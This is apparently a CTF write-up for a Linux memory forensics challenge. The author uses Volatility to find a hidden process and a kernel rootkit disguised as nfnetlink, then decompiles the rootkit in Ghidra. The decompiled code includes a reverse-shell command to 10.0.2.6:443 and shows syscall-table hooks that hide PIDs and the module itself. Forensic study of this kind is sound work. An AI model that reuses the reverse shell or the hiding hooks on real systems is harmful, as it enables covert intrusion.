



APTnightmare-2
Task 1
The challenge archive contains a memdump and a zipped "generic profile" of a Linux kernel version.
When trying to run certain volatility3 modules, a missing symbol table error would occur.
I need to generate a symbol table for this specific Linux kernel version, as without it, Volatility3 will have no idea how to interpret this memory dump, and certain commands will fail.
Generating a symbol table
The archive contains a System.map file. This is a symbol table that contains a list of kernel symbol names (like functions and variables) and their corresponding memory addresses.
I can use dwarf2json to create an Intermediate Symbol File(ISF) file in a JSON format, which will satisfy the symbol table requirement of volatility3.
https://github.com/volatilityfoundation/dwarf2json
I'll pass the system.map file as the argument for the --system-map flag.
./dwarf2json-linux-amd64 linux --system-map APTNightmare-2/boot/System.map-5.3.0-70-generic > symbols.json
After moving this file to the appropriate symbols directory, I reran the pslist module, expecting it to work...
Getting volatility2
I've never used volatility2 before, but I've heard that when something does not work with vol3 when expected, there is a pretty big chance that it might work with vol2.
The necessary profile file was the .zip archive itself, and after moving it to the correct location volatility/plugins/overlays/linux/, I can check if it's recognized by running the --info command with volatility.
Afterwards, I can use the profile by providing the profile name string with the --profile= flag.
python2 vol.py -f ../APTNightmare-2/dump.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_pslist

Looking through the pstree output, I can see a suspicious string of events starting with bash(PID 3437), going through sudo su, and ending on another instance of bash(PID 3509), suggesting privilege escalation.
However, this does not give me the necessary details(IP:PORT) to formulate an answer to Q1. There is a module that focuses on this information, namely linux_netscan. It'll carve the memory image in search of any patterns resembling a network connection.
python2 vol.py -f ../APTNightmare-2/dump.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_netscan

In the output, I can see an established connection to 10.0.2.6 on port 443. This IP:PORT string will be my answer to question 1.
Task 2
I reran the pslist module to list all bash processes and their PPIDs.
The process string I previously deemed suspicious originates from the GNOME Terminal, which means that it was initiated by the user. Another legitimate bash process was initiated by the systemd service.
There was one more bash process with a PPID of 1. This corresponds to the init process, which is the first user-level process started by the kernel during boot. Such a PPID could also mean an orphaned process(a process with no PPID, which gets "adopted" by init/systemd).
Using the psscan module, I can see processes that have been hidden from the earlier scans.
This uncovers 3 new processes with PIDs of: 3627, 3632, and 3636. After checking them top to bottom, 3632 was revealed to be the answer.
Task 3
The fact that there was a hidden process suggests the system may have been infected with a rootkit. To get a list of all kernel modules loaded during runtime, I'll run the linux_lsmod module.
python2 vol.py -f ../APTNightmare-2/dump.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_lsmod
I did not see anything suspicious in this list, but rootkits often "hide" themselves from view via various methods, like hijacking system calls and modifying them to avoid detection.
That is where the linux_hidden_modules module shines. It carves the memory directly in search of hidden rootkits, so if anything was hiding from view, this would surely find it.
There was only one entry, which looks oddly familiar to one of the legitimate modules. The only difference is 2 characters with swapped places.
nfentlink will be my answer to question 3.
Task 4
If volatility3 worked with this memdump, I'd just recover the host's filesystem with pagecache.RecoverFs. However, this won't work here, so I'll need a different approach.
Looking through the module list of vol2, I found a module named linux_dmesg, which gathers and displays the dmesg buffer. This should contain the timestamp of when the rootkit was loaded.
python2 vol.py -f ../APTNightmare-2/dump.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_dmesg | grep nfentlink -C 5
The timestamp is there, but getting the answer will require a bit more work. Dmesg timestamps are in a time since the system was booted timestamp, showing it in a seconds.microseconds format.
I then followed by getting the timestamp of the last message in the dmesg buffer, and the modify date of the memdump itself to calculate the proper UTC timestamp.
Either I messed up the process somewhere, or some of the dmesg data was already lost at the point of the memdump being taken.
Finding an alternate way
Looking through the Vol2 modules again, I found a different module. Namely linux_enumerate_files, which will list files referenced by the filesystem cache.
python2 vol.py -f ../APTNightmare-2/dump.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_enumerate_files > enum
This can then be paired with linux_find_file, which will allow me to recover files by specifying the memory offset(here called an inode).
The first file I'll recover will be the syslog, as it will contain the exact timestamp of when the malicious module was loaded(same message as in the dmesg output, but in a better format).
I'll use this memory offset to restore the syslog.
python2 vol.py -f ../APTNightmare-2/dump.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_find_file -i 0xffff98ea5a730528 -O log2
Success! The only missing piece of this timestamp is the year, but from my failed manual conversion attempt, I can infer that the year was 2024.
My full answer to question 4 will be 2024-05-02 20:42:57
Task 5
Linux rootkits are most often found with the .ko(kernel object) file extension. I'll search the enum file for any file with such an extension, additionally grepping for the nfnetlink string.
cat enum | grep \.ko | grep nfnetlink
Immediately, I can see 2 very suspicious things in this output:
-
- All of the legitimate nfnetlink .ko files are located under
/lib/modules/5.3.0-70-generic/kernel/net/netfilter/, while a single file stands out, being located under/lib/modules/5.3.0-70-generic/kernel/drivers/net/
- All of the legitimate nfnetlink .ko files are located under
-
- All but one of the files have very close inode numbers. This indicates that they were created at the same time, whereas the file with a very different inode number was created much later, because the number is bigger.
/lib/modules/5.3.0-70-generic/kernel/drivers/net/nfnetlink.ko will be my answer to question 5.
Task 6
In order to get the MD5 hash of the rootkit, I first have to recover it from the memdump. The necessary memory offset is already displayed in the output of the previous command.
python2 vol.py -f ../APTNightmare-2/dump.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_find_file -i 0xffff98ea266b5a68 -O nfnetlink.ko
Now I can use md5sum to get an MD5 hash of the rootkit.
35bd8e64b021b862a0e650b13e0a57f7 will be my answer to question 6.
Task 7
I ran strings against the rootkit, grepping for author

After recovering the legitimate module and doing the same, the file appeared to contain no strings, despite having a non-zero size.
With this failure, I looked again at the email and found a discrepancy.
<laforge@netflter.org>
The first website that came up after I searched for more information about nfnetlink was netfilter.org. This email lacked an i, being identical to the true module otherwise.
i would be my answer to question 7.
Task 8
After opening the rootkit in Ghidra, I filtered the symbol tree for the string init
The nfnetlink_init is just a label, but the init module function holds a few interesting functionalities.
undefined8 init_module(void)
{
long in_GS_OFFSET;
undefined8 local_40;
char *local_38;
undefined *local_30;
char *local_28;
undefined8 local_20;
long local_18;
local_38 = "/bin/bash";
local_30 = &DAT_001008ba;
local_18 = *(long *)(in_GS_OFFSET + 0x28);
local_28 = "bash -i >& /dev/tcp/10.0.2.6/443 0>&1";
local_20 = 0;
call_usermodehelper("/bin/bash",&local_38,0,1);
fh_install_hooks(hooks,3);
prev_module = _DAT_00100d90;
list_del.constprop.7();
__sys_call_table = kallsyms_lookup_name("sys_call_table");
orig_mkdir = *(undefined8 *)(__sys_call_table + 0x298);
local_40 = read_cr0();
clear_bit.constprop.9(&local_40);
*(code **)(__sys_call_table + 0x298) = hook_mkdir;
local_40 = read_cr0();
set_bit.constprop.10(&local_40);
if (local_18 != *(long *)(in_GS_OFFSET + 0x28)) {
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
return 0;
By using the call_usermodehelper kernel function, the malware can launch reverse shells back to the attacker(running as root).
list_del.constprop.7(); This is a kernel function that removes a module from the linked list of kernel modules. The rootkit essentially erased itself from the list, which is why it was not detected by the lsmod module of Volatility.
Then, the rootkit creates a hook for its hook_mkdir function, which will make it execute instead of the intended use for the mkdir command.
undefined8 hook_mkdir(long param_1)
{
undefined8 uVar1;
long lVar2;
undefined8 *puVar3;
long in_GS_OFFSET;
undefined1 local_11f [7];
undefined8 auStack_118 [30];
undefined8 local_28;
long local_20;
uVar1 = *(undefined8 *)(param_1 + 0x70);
local_20 = *(long *)(in_GS_OFFSET + 0x28);
_local_11f = 0;
local_28 = 0;
puVar3 = (undefined8 *)(local_11f + 7);
for (lVar2 = 0x1f; lVar2 != 0; lVar2 = lVar2 + -1) {
*puVar3 = 0;
puVar3 = puVar3 + 1;
}
lVar2 = strncpy_from_user(local_11f,uVar1,0xff);
if (0 < lVar2) {
printk(&DAT_0010087c);
}
(*orig_mkdir)(param_1);
if (local_20 == *(long *)(in_GS_OFFSET + 0x28)) {
return 0;
}
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
It reads what directory was copied by the user, sends a formatted string to the kernel log buffer(viewable with dmesg), and ultimately calls the regular mkdir function to perform its normal task.
With all that, the init module itself was not the answer to question 8. It was the other init string, nfnetlink_init.

Task 10
In Ghidra, I searched for the sys_call string within the program text.
There are 3 syscalls listed. __x64_sys getdents64, __x64_sys getdents, and the last one, __x64_sys_kill
{kind=link}
Task 11
I looked through the 3 hook functions and discovered the signal PID. First, I'll go over each of them briefly, starting with hook_kill
/* WARNING: Function: __fentry__ replaced with injection: fentry */
/* WARNING: Function: __x86_indirect_thunk_rax replaced with injection: x86_indirect_thunk_rax */
undefined8 hook_kill(long param_1)
{
undefined8 uVar1;
if (*(int *)(param_1 + 0x68) != 0x40) {
uVar1 = (*orig_kill)();
return uVar1;
}
sprintf(&hide_pid,"%d",*(undefined8 *)(param_1 + 0x70));
return 0;
It takes in param_1 from the offset 0x68 (most definitely the signal number of a kill command), and compares it against a hardcoded value of 0x40(64).
If the value is NOT 64, it calls the original kill function and operates normally.
However, if the signal number is 64, it reads the PID from its offset in the arguments and saves that value into the hide_PID variable.
Thehook getdents64 function then takes the hide_pid value, and removes the stored PID from command outputs like ps aux, so that the user does not see the process.
This works by reading from the legitimate getdents(get directory entries) function, looking for the stored hide PID value, and removing it from the output. The rest is then returned untouched, but without the hidden PID.
The signal number, which is used to hide PIDs, is 64

Solved!